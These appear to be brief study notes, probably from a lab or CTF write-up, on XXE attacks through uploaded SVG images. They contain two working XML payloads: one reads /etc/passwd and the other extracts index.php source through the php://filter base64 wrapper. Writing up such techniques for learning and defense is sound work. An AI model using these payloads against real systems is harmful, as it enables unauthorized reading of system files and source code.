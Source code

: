 we can do a XXE exploit using .svg images potentially leaking source code and reading files

saving this to a .svg file we can read files 
(we can also do it using .png it doesnt necesseraly need to be .svg)

```xml
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<svg>&xxe;</svg>
```

[we can look at the file using ctr + u to]
and with this we can read source code

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```

[we can look at the page source using ctr + u to find the base64 encoded source code]

![[Pasted image 20241124025731.png]]

